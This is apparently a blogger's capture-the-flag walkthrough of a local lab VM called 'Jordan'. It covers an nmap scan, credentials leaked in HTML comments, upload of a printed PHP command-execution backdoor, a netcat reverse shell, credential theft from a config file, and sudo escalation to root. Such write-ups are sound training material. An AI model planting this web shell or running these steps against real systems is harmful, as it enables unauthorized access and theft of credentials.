 ```yaml
---
layout: post
title: Jordan
date: 26-05-2025
categories: [medium]
tags: [basic]
image: "https://images.soleretriever.com/blog/a814e02f7fdc6a5ce6a002cc734d1b2b4e9a7611-1070x760.png?quality=90&fit=clip&auto=format&width=1200"
---
```


>Hi am cyberkiddle how are you doing, ithink your going well and every thing is cool is that right?
> If not am sorry for that you will be fine.



>Welcome to the next space and we need to find the price of jordan.
> This time we need to dive into hacking with more skills and not walkthroughs try first if you thing you have some thing to get help you can try to come back.



![Screenshot From 2025-05-25 11-03-13](https://github.com/user-attachments/assets/ca934608-f16f-4d92-a12a-ad5c0eec0e8d)


## Scanning
```
~/Desktop/redteam/hack/jordan » nmap -sC -sV 192.168.56.106                                       cyberkid@cyberkiddle
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 19:12 EAT
Nmap scan report for 192.168.56.106
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:b9:68:38:77:7c:40:f6:bf:98:09:ff:d9:5f:73:ec (RSA)
|   256 b9:df:60:1e:6d:6f:d7:f6:24:fd:ae:f8:e3:cf:16:ac (ECDSA)
|_  256 78:5a:95:bb:d5:bf:ad:cf:b2:f5:0f:c0:0c:af:f7:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
| http-robots.txt: 8 disallowed entries 
| / /backup /admin /admin_area /r00t /uploads 
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:78:27:C1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
-----------------------------------------------------------------------------------------------------------------------


```
## Enumarting 
Found dumped credential in the website, from the website source codes.

```
<html>
<head>
<title>
Fake admin area :)
</title>
<body>
<center><h1>The admin area not work :) </h1></center>
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
</body>
</html>



```
## Payload upload 
This is the crutial part that will give me the access to the target
![Screenshot From 2025-05-26 19-36-36](https://github.com/user-attachments/assets/533be8e1-169a-4153-b369-41ff7861456c)


```
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->


```
By this we can now get the reverse shell from the payload of python from reverseshell generator. using burp suite and get the access from there.


## intial access
>After i crafted the payload to get into the system



![Screenshot From 2025-05-26 19-58-12](https://github.com/user-attachments/assets/c7154137-02e7-4dc7-a0ce-9655f5d4418d)

```
-----------------------------------------------------------------------------------------------------------------------
~/Desktop/redteam/hack/jordan » nc -lnvp 1234                                                 1 ↵ cyberkid@cyberkiddle
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.106] 54410
$ whoami
whoami
www-data
$ /bin/bash -i
/bin/bash -i
www-data@Jordaninfosec-CTF01:/var/www/html/uploaded_files$ clear

```
## Credetials i found in using linenum
>here we need to find the valid user credentials for the user in the system and try to use them


you can use automation or any other way.

```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt
<1:/tmp/lilly$ cat /etc/mysql/conf.d/credentials.txt                         
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/tmp/lilly$ 



```
## Lateral movement.
I found the credential file named in the list and i think it was so closer to be root write? lets see.

```
 Searching *password* or *credential* files in home (limit 70)
/bin/systemd-ask-password
/bin/systemd-tty-ask-password-agent
/etc/mysql/conf.d/credentials.txt
/etc/pam.d/common-password
/etc/ssl/private/ssl-cert-snakeoil.key
/usr/lib/git-core/git-credential
/usr/lib/git-core/git-credential-cache
/usr/lib/git-core/git-credential-cache--daemon
/usr/lib/git-core/git-credential-store
  #)There are more creds/passwds files in the previous parent folder


```

## Gues whoami
Finally i got the right credentials lets move more to root.
```
www-data@Jordaninfosec-CTF01:/tmp/lilly$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/tmp/lilly$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/tmp/lilly$ 

```
lets try to see if we can have lateral movemments and try to hack more

## Am Root are your happy
```
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/tmp/lilly$ sudo su
sudo su
root@Jordaninfosec-CTF01:/tmp/lilly# whoami 
whoami
root
root@Jordaninfosec-CTF01:/tmp/lilly# 



```
## Lets hack database
```
root@Jordaninfosec-CTF01:/var/www/html# cat chec	
cat check_login.php 
<?php
session_start();
$username = $_POST["user_name"];
$password = $_POST["pass_word"];
if($username ==="admin" && $password==="3v1l_H@ck3r")
{
	$_SESSION['loggedin']=true;
	header("Location: index.php");	
}
else
{
	echo "<br/><h1 style='color:red'><center>Error in username/password</center></h1>";
}
?>
root@Jordaninfosec-CTF01:/var/www/html# 

```

## Task what was the mysql login creds?
 Am glad we made it it was so simple and easy to do write how is your progress send me via email in about parten and i will see.
![Screenshot From 2025-05-26 20-54-37](https://github.com/user-attachments/assets/aae66087-6672-4a3a-979f-d0d632fb2d98)

>I think you have enjoyed and every thing gopes well thank you much.




